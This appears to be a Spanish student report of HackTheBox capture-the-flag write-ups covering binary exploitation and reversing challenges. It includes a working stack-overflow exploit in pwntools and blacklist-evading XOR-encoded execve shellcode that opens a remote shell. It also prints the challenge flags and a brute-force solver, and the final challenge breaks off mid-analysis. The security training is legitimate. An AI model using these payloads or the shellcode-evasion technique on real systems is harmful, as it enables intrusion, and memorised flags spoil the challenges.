# Seguridad-P2

## Índice

- [PWD](#pwd)
  - [Challenge 1: You know 0xDiablos](#challenge-1-you-know-0xDiablos-pts20)
  - [Challenge 2: Execute](#challenge-2-execute-pts20)

- [Reversing](#reversing)
  - [Challenge 1: Rega's Town](#challenge-1-regas-town-pts30)
  - [Challenge 2: Virtually Mad](#challenge-2-virtually-mad-pts30)

- [Web](#web)
  - [Challenge 1: Next Path](#challenge-1-nextpath-pts30)
  - [Challenge 2: Notebook Converter Pro](#challenge-2-notebook-converter-pro-pts20)

- [Tabla resumen de retos resueltos](#tabla-resumen-de-retos-resueltos)

- [Timeline de resolución retos](#timeline-de-resolución-retos)


# PWD

## Challenge 1: You know 0xDiablos pts[20]

### 1. Procedimiento seguido (screenshots y explicaciones).

Primeramente se obtiene información sobre el archivo binario para saber posibles
direcciones por las que se pueda vulnerar el programa.



Con la información que se refleja en la imagen se puede saber que no tiene
protecciones del stack como tal. Por lo que a continuación se procede a revisar
el código utilizando Ghidra para analizar el binario.



Como se denota en la imagen la función `vuln()` utiliza el método `gets()` el
cual es extremadamente vulnerable al ataque de buffer overflow. De manera
adicional hay una función llamada `flag()` la cual imprime la bandera cuando es
ejecutada, como se ve a continuación:



Algo relevante a comar en cuenta son los parámetros que son necesarios para la correcta ejecución
la función.

Ya sabiendo que se puede hacer un buffer overflow para influenciar en el flujo
de ejecución y ejecutar la función `flag()`, se procede a calcular el tamaño
del payload necesario para sobrescribir el return address.

El buffer declarado en `vuln()` tiene un tamaño de 180 bytes. Sumando 4 bytes
de alineación (múltiplos de 4 en arquitectura x86) y 4 bytes del EBP guardado, se necesitan **188 bytes de padding**
antes de poder sobrescribir el return address.



Con la dirección de entrada de `flag()` identificada en `0x080491e2`, se
construye el payload. Sin embargo, para que `flag()` imprima la bandera
también es necesario que sus dos parámetros tengan los valores correctos:
`param_1 = 0xDEADBEEF` y `param_2 = 0xC0DED00D`, esto según el código visto en Ghidra.

En arquitecturas x86 de 32 bits los argumentos se pasan en el stack, por lo
que el payload final queda estructurado de la siguiente manera:

| Sección | Contenido | Tamaño |
|---|---|---|
| Padding | `'A' * 188` | 188 bytes |
| Return address | `0x080491e2` en little-endian | 4 bytes |
| Fake return address | `'AAAA'` | 4 bytes |
| param_1 | `0xDEADBEEF` en little-endian | 4 bytes |
| param_2 | `0xC0DED00D` en little-endian | 4 bytes |

El exploit se implementa con pwntools de la siguiente manera:

```python
from pwn import *

payload  = b'A' * 188
payload += p32(0x080491e2)  # dirección de flag()
payload += b'A' * 4         # fake return address
payload += p32(0xDEADBEEF)  # param_1
payload += p32(0xC0DED00D)  # param_2

io = remote('IP de HTB', PORT de HTB)
io.sendline(payload)
io.interactive()
```

Al ejecutar el exploit contra el servidor de HackTheBox, el programa redirige
su ejecución hacia `flag()` con los parámetros correctos y se obtiene la
bandera:



---

### 2. Lista de herramientas utilizadas

| Herramienta | Propósito |
|---|---|
| `checksec` | Verificar las protecciones del binario |
| `Ghidra` | Análisis estático y decompilación del binario |
| `GDB + pwndbg` | Depuración dinámica y análisis del stack |
| `pwntools` | Construcción y envío del payload |
| `radare2` | Dirección de flag ( ) |

---

### 3. Debilidad que dio origen a la vulnerabilidad (CWE)

**CWE-121: Stack-based Buffer Overflow**

La vulnerabilidad se origina en el uso de la función `gets()` dentro de
`vuln()`, la cual no realiza ninguna validación del tamaño del input recibido.
Esto permite escribir más datos de los que el buffer puede contener, desbordando
hacia el stack y sobrescribiendo el return address con una dirección arbitraria.

De manera secundaria aplica:

**CWE-242: Use of Inherently Dangerous Function**

`gets()` está catalogada como una función inherentemente peligrosa y ha sido
eliminada del estándar C11 precisamente por no ofrecer ningún mecanismo de
control de límites. Su uso en cualquier contexto representa una vulnerabilidad
directa.

---

### 4. Patrón de ataque (CAPEC)

**CAPEC-100: Overflow Buffers**

El ataque consiste en enviar un input deliberadamente más largo que el buffer
asignado para sobrescribir datos críticos del stack, en este caso el return
address del stack frame de `vuln()`. Al redirigir la ejecución hacia `flag()`
con los parámetros correctos ubicados en el stack, se logra ejecutar código
que el flujo normal del programa nunca alcanzaría.

---

### 5. Bandera

#### La bandera obtenido corresponde a: 
```
HTB{16b0ab4fc3cd8ba880c692bc5dd4eaf3}
```

## Challenge 2: Execute pts[20]

### 1. Pasos para explotar la vulnerabilidad

Primeramente se obtiene información sobre el archivo binario para identificar
posibles vectores de ataque.



Como se puede observar, el binario tiene el stack ejecutable (`NX unknown`),
lo que significa que es probable que sea posible inyectar shellcode directamente en el stack y
ejecutarlo.

A continuación se revisa el código fuente, no es necesario utilizar Ghidra en este caso debido a que ya el problema nos brinda el achivo de código C.



El programa simplemente recibe input del usuario y lo ejecuta directamente como
código máquina. Sin embargo, existe una función `check()` que valida el
shellcode antes de ejecutarlo, bloqueando ciertos patrones de bytes. La idea es seguir el ejemplo de clase y lograr abrir un shell. Los patrones prohibidos encontrados en el binario son:



El shellcode estándar para ejecutar `/bin/sh` mediante la syscall `execve`
contiene exactamente esos bytes prohibidos. El último es correspondientes al número de syscall de `execv`, los primeros a los bytes de la string `/bin/sh` y después son bytes nulos, por lo que se necesita ofuscar
cada uno de ellos mediante técnicas alternativas.

**Bypass del número de syscall (`0x3b`):**

En lugar de cargar 59 directamente en `rax`, se carga 58 y se le suma 1:

```asm
push 0x3a    ; 58 en el stack
pop rax      ; rax = 58
add al, 0x1  ; rax = 59, sin generar 0x3b
```

**Bypass de los registros en cero (`0xf6`, `0xd2`):**

`xor rsi, rsi` y `xor rdx, rdx` generan los bytes prohibidos `0xf6` y `0xd2`.
La alternativa es usar `push/pop/dec`:

```asm
push 0x1
pop rsi
dec rsi      ; rsi = 0 sin generar 0xf6

push 0x1
pop rdx
dec rdx      ; rdx = 0 sin generar 0xd2
```

**Bypass de la string `/bin/sh` (XOR encoding):**

Los bytes de `/bin/sh` están completamente bloqueados. La solución es ofuscar
la string mediante XOR con una clave que no genere bytes prohibidos, y
reconstruirla en runtime:

```asm
mov rax, 0x2a2a2a2a2a2a2a2a   ; KEY = 0x2a repetido
push rax                        ; KEY en el stack

mov rax, 0x2a2a2a2a2a2a2a2a ^ 0x68732f6e69622f  ; KEY XOR "/bin/sh"
xor [rsp], rax                  ; stack = KEY XOR (KEY XOR "/bin/sh") = "/bin/sh"
mov rdi, rsp                    ; RDI apunta a "/bin/sh" reconstruido
```

La clave `0x2a2a2a2a2a2a2a2a` fue seleccionada porque al combinarla con
`/bin/sh` no produce ningún byte prohibido.

El shellcode final combinando todos los bypasses es el siguiente:

```asm
mov rax, 0x2a2a2a2a2a2a2a2a
push rax

mov rax, 0x2a2a2a2a2a2a2a2a ^ 0x68732f6e69622f
xor [rsp], rax
mov rdi, rsp

push 0x1
pop rsi
dec rsi

push 0x1
pop rdx
dec rdx

push 0x3a
pop rax
add al, 0x1
syscall
```

El exploit completo implementado con pwntools:

```python
from pwn import *

exe = './execute'
elf = context.binary = ELF(exe, checksec=False)

sh = remote('<IP>', <PORT>)

shellcode = '''
mov rax, 0x2a2a2a2a2a2a2a2a
push rax

mov rax, 0x2a2a2a2a2a2a2a2a ^ 0x68732f6e69622f
xor [rsp], rax
mov rdi, rsp

push 0x1
pop rsi
dec rsi

push 0x1
pop rdx
dec rdx

push 0x3a
pop rax
add al, 0x1
syscall
'''

sc = asm(shellcode)
sh.send(sc)
sh.interactive()
```

Al ejecutar el exploit contra el servidor de HackTheBox, el shellcode pasa la
validación, se ejecuta en el stack y se obtiene una shell remota:



---

### 2. Lista de herramientas utilizadas

| Herramienta | Propósito |
|---|---|
| `checksec` | Verificar las protecciones del binario |
| `pwntools` | Ensamblado del shellcode y envío del payload |

---

### 3. Debilidad que dio origen a la vulnerabilidad (CWE)

**CWE-94: Improper Control of Generation of Code (Code Injection)**

La vulnerabilidad principal radica en que el programa recibe input del usuario
y lo ejecuta directamente como código máquina sin una validación suficiente.
Aunque existe una función `check()` que intenta bloquear ciertos patrones, no
es capaz de detectar shellcode ofuscado mediante técnicas de encoding como XOR.

De manera secundaria aplica:

**CWE-693: Protection Mechanism Failure**

El mecanismo de validación implementado en `check()` es insuficiente. Una
blacklist basada en patrones de bytes estáticos puede ser eludida mediante
técnicas de ofuscación, lo que demuestra que el enfoque de "lista negra" no
es una estrategia de defensa robusta para prevenir la ejecución de código
arbitrario.

---

### 4. Patrón de ataque (CAPEC)

**CAPEC-242: Code Injection**

El ataque consiste en inyectar shellcode crafteado manualmente que evade la
validación del programa mediante técnicas de ofuscación a nivel de bytes. El
shellcode reconstruye la string `/bin/sh` en runtime usando XOR, evita los
bytes bloqueados del syscall `execve` usando aritmética, y zeroa los registros
necesarios sin usar las instrucciones convencionales que generan bytes
prohibidos. Al pasar la validación, el shellcode se ejecuta directamente en el
stack obteniendo ejecución de código arbitrario.

De manera complementaria aplica:

**CAPEC-88: OS Command Injection** — Una vez obtenida la shell mediante el
shellcode, el atacante tiene ejecución directa de comandos en el sistema
operativo remoto.

---

### 5. Bandera

#### La bandera obtenido corresponde a: 
```
HTB{d14efc5f440239a02ef164bd27b4a5eb}
```

---

# Reversing

## Challenge 1: Rega's Town pts[30]

### Herramientas Utilizadas

- Ghidra
- python 3

- Correr el binario:


- Ghidra:


En Rust, el patrón típico para leer input es algo así:

```rust
let mut user_input = String::new();
stdin().read_line(&mut user_input);
let trimmed = user_input.trim_end();
let result = filter_input(trimmed);
```

Entonces es probable que `local_168` sea el input del usuario que es pasado a `filter_input()`.


Ahora vemos la función `filter_input()` en Ghidra, se puede ver que es una función de validación sintáctica del input usando regex:


Aquí se puede ver que se está verificando el input string del usuario con un regex:

```
^.{33}$
(?:^[\x48][\x54][\x42]).*
^.{3}(\x7b).*(\x7d)$
^[[:upper:]]{3}.[[:upper:]].{3}[[:upper:]].{3}[[:upper:]].{3}[[:upper:]].{4}[[:upper:]].{2}[[:upper:]].{3}[[:upper:]].{4}$(?:.*\x5f.*)
(?:.[^0-9]*\d.*){5}
.{24}\x54.\x65.\x54.*
^.{4}[X-Z]\d._[A]\D\d.................[[:upper:]][n-x]{2}[n|c].$
.{11}_T[h|7]\d_[[:upper:]]\dn[a-h]_[O]\d_[[:alpha:]]{3}_.{5}
```

Esto dice que:

- El passphrase debe tener longitud 33
- `\x48` = `'H'`, `\x54` = `'T'` y `\x42` = `'B'`: el string empieza con `"HTB"`

Continuando en Ghidra, se revisa la función `check_input()` que realiza una validación semántica usando productos ASCII. Pero no muestra todo porque Ghidra no pudo resolver esos valores. 


Sin embargo, podemos ver el código assembly. Además, Ghidra pone que `corr_values` literalmente dice "los valores correctos", entonces mirando el assembly corresponde a esto:


```
Valores = [0x7a070, 0x5c436, 0x6cc60, 0x27b5776, 0x10f9, 0xd76a0, 0x7465a58]
```

Los valores que se ven en el assembly son lo que se carga justo antes de que empiece la comparación. Por ejemplo `0x7a070 = 499824` en decimal, que corresponde a la primera palabra. Entonces se puede hacer un script que pruebe combinaciones hasta que dé estos valores. Ghidra está mostrando exactamente los valores contra los que se multiplican los ASCII de cada palabra. Cada target es el producto esperado de los caracteres de ese segmento:

```python
import re
import string
import itertools

def ascii_product(word, target):
    product = 1
    for char in word:
        product *= ord(char)
    return product == target

def matches_pattern(word, pattern):
    return re.fullmatch(pattern, word)

candidates = string.ascii_letters + string.digits

segment_targets = [
    0x7a070,    # segmento 1: chars [4..7]
    0x5c436,    # segmento 2: chars [8..11]
    0x6cc60,    # segmento 3: chars [12..15]
    0x27b5776,  # segmento 4: chars [16..20]
    0x10f9,     # segmento 5: chars [21..23]
    0xd76a0,    # segmento 6: chars [24..27]
    0x7465a58,  # segmento 7: chars [28..32]
]

segment_patterns = [
    r"[X-Z]\d.",        # segmento 1: letra X-Z, digito, cualquier cosa
    r"[A]\D\d",         # segmento 2: 'A', no-digito, digito
    r"T[h|7]\d",        # segmento 3: 'T', h o 7, digito
    r"[A-Z]\dn[a-h]",   # segmento 4: mayuscula, digito, 'n', letra a-h
    r"[O]\d",           # segmento 5: 'O', digito
    r"T[A-Za-z0-9$]{2}",# segmento 6: 'T', dos alfanumericos
    r"[A-Z][n-x]{2}[n|c]", # segmento 7: mayuscula, dos letras n-x, n o c
]

segment_lengths = [3, 3, 3, 4, 2, 3, 4]

print("Buscando segmentos validos...\n")

for target, pattern, length in zip(segment_targets, segment_patterns, segment_lengths):
    for combo in itertools.product(candidates, repeat=length):
        word = "".join(combo)
        if ascii_product(word, target) and matches_pattern(word, pattern):
            print(f"  {word}")
    # El separador indica el fin de un segmento (equivale al '_' en el flag)
    print(" ---")
```

**Resultado:**

```
alonso@alonso-Inspiron-7391:~/segu-p2$ python3 rega_town.py
Buscando segmentos validos...

  Y0u
  Y4l
  Y6h
  _
  Af9
  Ar3
  _
  Th3
  _
  K1ng
  _
  O7
  _
  Teh
  The
  _
  Town
  Twon
  _
```



### FLag

`HTB{Y0u_Ar3_Th3_K1ng_O7_The_Town}`

### Vulnerabilidades

1. Lógica de validación expuesta mediante ingeniería inversa (CWE-656)

Toda la validación del passphrase, tanto las expresiones regulares en `filter_input()` como los productos ASCII objetivo en `check_input()`, reside íntegramente en el binario del cliente. Esto encaja en CWE-656: Reliance on Security Through Obscurity: el único obstáculo es la dificultad de leer código compilado, no una restricción criptográfica real. Desensamblar el binario con Ghidra fue suficiente para extraer los ocho patrones regex y los siete productos objetivo, eliminando por completo la barrera de entrada.

2. Secretos de verificación hardcodeados en texto plano (CWE-798)

Los productos ASCII esperados (`0x7a070`, `0x5c436`, `0x6cc60`, etc.) están embebidos literalmente en el segmento de datos del binario y son accesibles mediante lectura del assembly. Esto es una instancia de CWE-798: Use of Hard-coded Credentials (generalizado a valores de verificación hardcodeados): cualquier atacante que inspeccione el binario obtiene los targets de inmediato y puede resolverlos de forma algorítmica con fuerza bruta acotada, como se demostró con el script de búsqueda por segmentos.

El patrón de ataque que se siguió es CAPEC-188: Reverse Engineering, que describe el análisis de un artefacto compilado para extraer su lógica interna y derivar los inputs que producen el comportamiento deseado. En este caso el análisis estático con Ghidra permitió reconstruir las restricciones sintácticas (regex) y semánticas (productos ASCII), reduciendo la búsqueda de la flag a un problema de fuerza bruta segmentada con espacio de búsqueda acotado.

## Challenge 2: Virtually Mad pts[30]

### Herramientas Utilizadas

- Ghidra
- python 3

```bash
file virtually.mad
```


```
virtually.mad: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV),
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=27b0820aa0b06b1dd720035f2e736a1a623d4450,
for GNU/Linux 4.4.0, stripped
```

El binario corresponde a un ejecutable ELF de 64 bits para Linux, compilado como PIE y además stripped.


Correr el binario: Pide un codigo.

Utilizando Ghidra confirmamos información anterior. Una vez analizado, lo primero que hago es encontrar el `main` para entender qué hace exactamente este binario. `Entry` parece ser el que llama al "main" del programa.


`Entry` es la función que inicia todo y llama a `FUN_00101754` que parece ser el corazón del programa.


El main es `FUN_00101754`, y al analizarlo me di cuenta que el binario puede ser una VM debido a que un print dice "opcodes". Además, `UVar7` y `UVar3` hacen input parsing, y `strtol()` convierte un string a entero.


La lógica general es:

- Leer una cadena ingresada por el usuario.
- Dividirla en bloques de 8 caracteres.
- Interpretar cada bloque como un opcode hexadecimal.
- Validar cada opcode según su posición.
- Ejecutar las instrucciones sobre un estado interno.
- Verificar si la VM termina en un estado específico.

El programa utiliza `__isoc99_scanf("%s", local_118);` y verifica que la longitud del input sea múltiplo de 8:

```c
if ((sVar5 & 7) == 0)
```

Cada bloque de 8 caracteres se convierte a hexadecimal usando `strtol()`. Por ejemplo:

```
02100001 -> 0x02100001
```

La cantidad de instrucciones se calcula como:

```
cantidad_opcodes = longitud / 8
```



Cada opcode es validado dependiendo de su índice mediante un `switch`. En cada case hay una condicion: `if (((uVar3 & 0xf000000) != 0x2000000) || ((uVar3 & 0xff0000) != 0x100000))`

Este if valida que la instrucción (uVar3) tenga un formato específico usando máscaras de bits. La expresión (uVar3 & 0xf000000) extrae los bits [27:24], que normalmente representan el opcode principal, y verifica que su valor sea 0x2. Luego, (uVar3 & 0xff0000) extrae los bits [23:16] y comprueba que ese campo sea igual a 0x10. Como ambas condiciones están unidas con ||, el if se ejecuta si cualquiera de las dos validaciones falla; es decir, si el opcode no es 2 o si el campo [23:16] no contiene 0x10.

Los formatos esperados son:

| **Opcode** | **Formato** |
| --- | --- |
| #0 | `0210XXXX` |
| #1 | `02????100` |
| #2 | `0311XXXX` |
| #3 | `0112XXXX` |
| #4 | `0413XXXX` |

Además, los últimos 12 bits deben ser menores a `0x101`, o la instrucción es ignorada.

Los opcodes válidos se ejecutan mediante:

```c
FUN_001016aa(piVar4, opcode);
```

Esta función parece ser el núcleo de la VM y probablemente modifica registros o memoria interna.


Después de ejecutar las instrucciones, el programa valida el estado final de la VM:

```
*piVar4      == 0x200
piVar4[1]    == -1
piVar4[2]    == -1
piVar4[3]    == 0
piVar4[0xc]  == 0x10000000
```

Además, el programa requiere exactamente 5 instrucciones.

Si todo se cumple, imprime:

```
This is the right answer! Validate the challenge with HTB{input}
```

El reto consiste en construir una secuencia válida de 5 opcodes que lleve la VM al estado esperado.

El siguiente paso del análisis es estudiar la función `FUN_001016aa`, ya que contiene la lógica real de ejecución de la máquina virtual. `FUN_001016aa` implementa un dispatch table: usa los bits `[27:24]` del opcode como índice en un array de function pointers para llamar la instrucción correcta.

